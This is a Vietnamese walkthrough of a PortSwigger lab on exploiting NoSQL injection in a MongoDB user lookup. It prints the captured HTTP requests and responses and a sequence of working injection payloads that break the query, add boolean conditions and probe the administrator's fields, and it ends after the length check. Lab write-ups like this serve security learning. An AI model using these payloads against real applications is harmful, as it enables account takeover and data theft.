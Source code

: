 # **Lab: Exploiting NoSQL injection to extract data**

> The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.  
 To solve the lab, extract the password for the `administrator` user, then log in to their account.  
  You can log in to your own account using the following credentials: `wiener:peter`.  

# **Solution**

Thực hiện đăng nhập vào ứng dụng web bằng thông tin được cung cấp.  

Sau khi đăng nhập, quan sát lịch sử HTTP, ta thấy có gói tin sau:

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 81

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

Sau khi đăng nhập, ứng dụng sẽ yêu cầu và lấy thông tin về ngừoi dùng hiện tại bao gồm `username`, `email`, `role`.  

Nhận thấy req này có thể khai thác, gửi req này tới repeater và chỉnh sửa giá trị tham số `user`:

```
GET /user/lookup?user=wiener HTTP/2
Host: 0a73006604581c338228795600c10063.web-security-academy.net
Cookie: session=7cvdAe3XYRlX5uk3kOiHSVnw7NzuyZkB
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a73006604581c338228795600c10063.web-security-academy.net/my-account?id=wiener
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

```

```
user=wiener'
```

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 58

{
  "message": "There was an error getting user details"
}
```

Đã gây ra lỗi phía ứng dụng, chứng tỏ việc chèn `'` đã phá vỡ cấu trúc câu truy vấn.  

Thử thêm một vài ký tự giúp truy vấn hợp lệ:

```
user=wiener'%2b'
```

Phản hồi đã trả về bình thường, giờ thêm điều kiện vào truy vấn:

```
# req
user=wiener'&&'1'=='2
encode: user=wiener'%26%26'1'%3d%3d'2

# res
{
  "message": "Could not find user"
}
```

```
# req
user=wiener'&&'1'=='1
encode: user=wiener'%26%26'1'%3d%3d'1

# res
{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

Thành công thêm điều kiện để thực thi phía máy chủ. Nghĩa là chúng ta có thể thêm điều kiện trong truy vấn để lấy thông tin cần thiết.

Mục tiêu là lấy thông tin tài khoản `administrator`.  
Giờ cần xác nhận tài khoản `administrator` tồn tại :

```
# req
user=administrator

# res
{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

Giờ kiểm tra lại các req trước. Ta thấy khi đăng nhập, có req gửi đi 2 tham số là `username` và `password`. Có thể đoán rằng tồn tại field `password` dùng để đăng nhập. Giờ cần kiểm tra tồn tại trường `password`:

Trong tệp js lấy thông tin user, ta thấy có các trường username, email, role. Có thể truy cập vào các trường này bằng `this.[field]`.  

Ta sẽ chọn cách kiểm tra `this.[field_name].length`.

```
# req
user=administrator'&&this.username.length>'0
encode: user=administrator'%26%26this.username.length>'0
# res
{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

```

```